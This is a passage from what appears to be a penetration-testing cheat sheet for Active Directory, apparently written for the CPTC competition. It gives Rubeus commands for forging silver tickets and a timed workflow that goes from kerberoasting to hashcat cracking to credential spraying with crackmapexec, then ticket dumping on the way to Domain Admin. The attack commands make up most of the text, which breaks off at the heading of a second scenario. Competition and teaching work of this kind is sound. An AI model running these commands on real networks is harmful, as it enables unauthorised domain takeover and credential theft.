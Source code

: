
### Silver Ticket Options

```powershell
# Specify target SPN
Rubeus.exe silver /rc4:HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /service:cifs/SERVER.corp.local /ptt

# Use AES256 (stealthier)
Rubeus.exe silver /aes256:AES_KEY /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /service:cifs/SERVER.corp.local /ptt

# Save to file
Rubeus.exe silver /rc4:HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /service:cifs/SERVER.corp.local /outfile:silver.kirbi
```

---

## CPTC Workflows

### Scenario 1: Low-Privilege Domain User on Windows

**Goal:** Escalate to Domain Admin

```powershell
# 1. Kerberoast (2 min)
Rubeus.exe kerberoast /outfile:spn-hashes.txt

# 2. Copy to Kali, crack
# (On Kali)
hashcat -m 13100 spn-hashes.txt rockyou.txt

# 3. If cracked → Use creds
# Back on Windows:
runas /user:CORP\sqlservice "powershell.exe"
# Enter cracked password

# 4. Check if sqlservice has admin rights anywhere
crackmapexec smb 10.10.10.0/24 -u sqlservice -p CrackedPass --local-auth

# 5. If admin on SQL server → Dump more creds
.\Rubeus.exe dump
# Repeat until DA ticket found
```

**Time: 5-10 minutes if weak service account password**

---

### Scenario 2: Compromised Workstation (Non-Admin)

**Goal:** Harvest tickets from memory
